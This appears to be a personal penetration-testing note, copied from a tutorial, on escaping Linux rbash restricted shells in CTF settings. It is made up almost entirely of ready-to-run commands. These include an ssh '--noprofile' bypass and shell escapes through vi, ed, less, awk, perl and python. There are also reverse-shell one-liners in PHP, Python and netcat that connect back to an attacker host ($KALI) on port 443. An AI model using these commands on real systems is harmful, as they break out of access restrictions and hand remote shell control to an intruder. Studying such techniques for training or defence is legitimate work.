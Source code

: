 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

#### rbash escape through SSH
Our First Method is Escaping the rbash shell through ssh many ctf playing times we have ssh username and password but our shell is restricted with rbash. we can easily bypass this rbash shell using extra argument bash noprofile

```bash - kali
ssh $USER@$TARGET
```

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

we can bypass the rbash shell using the no-profile extra parameter

```bash - kali
ssh $USER@$TARGET -t "bash --noprofile"
```

```bash - target
cd ../
```

#### rbash escape through editors
Linux has many editors we can bypass the rbash using these editor commands

#### bypass rbash using vi editor
First, we open the vi editor then we used: set option and we create a shell name variable and in this variable, we set our bash environment location. run the command one by one

run the vi command and our vi editor is open using the set mode we can bypass the restricted rbash shell

```bash - target
vi
```

```bash - taret
:set shell=/bin/bash
```

```bash - target
:shell
```
  
#### escaping rbash – ed editor
ed is another Linux editor simple we can run ed edit mode without selecting any file then we type bash path

```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
ed
```

```bash - target
!'/bin/bash'
```

```bash - target
pwd
```

#### escape rbash through reverse shell
We can bypass the rbash shell through different Linux reverse shell **Note:** before executing the reverse shell we need to start a net-cat listener.

##### rbash shell bypass – php
```bash - target
cd /
```

```bash - target
echo $SHELL
```

we open two ssh connections our cd command is currently not working before execute the reverse shell command firstly we start our netcat listener. in this case, we are using the same machine you can use your localhost IP for reverse connection

[[rlwrap]]

```bash - target
php -r '$sock=fsockopen("$KALI",443);exec("/bin/bash -i <&3 >&3 2>&3");'
```

After executing the reverse shell command we got the reverse connection target machine. and we successfully bypass the restricted rbash shell.

```bash - target
echo $SHELL
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – python
this is another way to bypass the rbash shell using python reverse shell remember before executing the reverse shell command you need to start your netcat listener.

```bash - target
cd /
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```bash - target
cd /
```

```bash - target
pwd
```

#### rbash shell bypass – netcat
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

[[rlwrap]]

```bash - target
nc  $KALI 443 -e /bin/bash
```

#### rbash escape with python
If the target system already installed any python version we run these commands for bypassing the rbash shell

```bash - target
echo $SHELL
```

```bash - target
cd ../
```

```bash - target
python -c 'import os; os.system("/bin/bash");'
```

```bash - target
python3 -c 'import os; os.system("/bin/bash");'
```

and again we escape the rbash shell using python command executing -c argument.

```bash - target
cd /home
```

```bash - target
cd ../
```

### rbash escape **Awk**
```bash - target
cd /home
```

```bash - target
echo $SHELL
```

```bash - target
awk 'BEGIN {system("/bin/bash")}' cd /home cd ~ pwd
```

```bash - target
awk 'BEGIN {system("/bin/bash")}'
```

```bash - target
cd /home
```

```bash - target
cd ~
```

```bash - target
pwd
```

### rbash escape perl
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
perl -e 'system("/bin/bash");'
```

```bash - target
cd /
```

```bash - target
cd /home
```

### rbash bypass through binary file
```bash - target
cd /
```

```bash - target
echo $SHELL
```

```bash - target
less anyfile.txt
```

```bash - target
!'bash'
```

```bash - target
cd /
```

```bash - target
cd /home
```

```bash - target
pwd
```

```bash - target
echo $SHELL
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
